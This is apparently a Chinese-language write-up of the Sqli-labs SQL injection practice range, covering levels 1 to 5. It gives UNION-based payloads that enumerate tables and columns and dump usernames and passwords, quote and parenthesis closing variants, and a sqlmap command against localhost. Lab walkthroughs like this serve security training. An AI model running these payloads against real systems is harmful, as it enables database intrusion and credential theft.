 2. 获取当前数据库下的所有表

```SQL
-1 UNION SELECT 1,group_concat(table_name),2 FROM information_schema.tables WHERE table_schema=DATABASE()
```

3. 获取当前指定表的所有字段

```SQL
-1 UNION SELECT 1,group_concat(column_name),2 FROM information_schema.columns WHERE table_name="USERS"
```

4.  获取指定表所有字段的值

```SQL
-1 UNION SELECT 1,group_concat(ID,USERNAME,PASSWORD),2 FROM USERS #
```

由于 Sqli-labs 靶场只需要绕过简单的 WAF 检测，不涉及其他相较而言更复杂的 Bypass ，故当关卡能够成功进行注入时以上的重复步骤不赘述

盲注关卡可使用 SQLMAP 进行自动化注入

### 第 1 关

根据提示 GET 传参 id = 1 得到回显，传入不同值发现得到回显不同，传入 `?id=1'` 判断 SQL 注入类型，发现是字符型注入，注入 `?id=' ORDER BY 4;--+` 发现总共有 3 列，注入 `?id=' union select 1,2,3; --+` 发现输出时会输出第二第三列，将第二、三列替换为 database()，version()得到数据库名为 security, 数据库版本为 8.0.12。由于靶场始终位于同一环境下，不同关卡中得到的信息相同，故以上相同回显以后不再重复记录。注入 `?id=-1'union select 1,group_concat(table_name),2 from information_schema.tables where table_schema=database()--+` 爆表，共有 emails, referers, uagents, users 四张表，注入 `?id=-1%27union%20select%201,group_concat(column_name),2%20from%20information_schema.columns%20where%20table_name=%27users%27--+` 爆表，得到 users 表中有 USER, CURRENT_CONNECTIONS, TOTAL_CONNECTIONS, id, username, password 六个字段, 最后注入 `?id=-1%27union%20select%201,group_concat(username,id,password),2%20from%20users--+` 拿到所有用户的用户名与密码

### 第 2 关

第二关注入 `?id=1'` 得到报错信息，则应该是数字型注入，采用和上一关相同的注入手段即可 `?id=-1%20union%20select%201,group_concat(username,id,password),2%20from%20users--+`

### 第 3 关

注入 `?id=1'` 得到报错信息，发现后端的 SQL 语句使用了括号包裹了用户输入，那么在第一关基础上把使用引号闭合改成使用引号和反括号闭合 SQL 语句即可
`?id=%27)union%20select%201,group_concat(username,id,password),2%20from%20users--+`

### 第 4 关

老花样注入 `?id=1'` 的时候没有回显，疑惑了一阵，再注入 `?id=1"` 发现输入被双引号包裹，故依然在前一关基础上把单引号反括号改成用双引号反括号闭合 sql 语句即可
`?id=%22)%20union%20select%201,group_concat(username,id,password),2%20from%20users%20--+`

### 第 5 关

没有回显，一般要么报错注入要么布尔注入，可以自己写脚本注入或者 SQLMap 一把梭 : P
`?id=1' and XXXX`
`sqlmap -u "http://localhost/sqli-labs-master/Less-5?id=1" -D security -T users --columns --batch`

### 第 6 关
